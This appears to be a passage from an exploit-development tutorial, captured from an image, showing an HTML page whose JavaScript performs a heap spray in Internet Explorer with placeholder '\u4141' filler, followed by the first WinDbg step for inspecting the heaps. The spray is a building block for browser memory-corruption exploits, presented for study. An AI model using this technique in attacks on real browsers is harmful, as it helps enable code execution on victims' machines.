   

<html>

<head>

<script>

function heapspray() {

    var shellcode = "\\u4141";

  

    while (shellcode.length < 100000)

        shellcode = shellcode + shellcode;

  

    var onemeg = shellcode.substr(0, 64\*1024/2);

  

    for (i=0; i<14; i++) {

        onemeg += shellcode.substr(0, 64\*1024/2);

    }

  

    onemeg += shellcode.substr(0, (64\*1024/2)-(38/2));

  

    var spray = new Array();

  

    for (i=0; i<100; i++) {

        spray\[i\] = onemeg.substr(0, onemeg.length);

    }

}

</script>

</head>

<body>

<input type="button" value="Spray the heap" onclick="heapspray()"></input>

</body>

</html>

  

Run the javascript code above and follow along with the following analysis in WinDbg. Start by viewing the addresses of the heaps in Internet Explorer:

  

!heap -stat

  
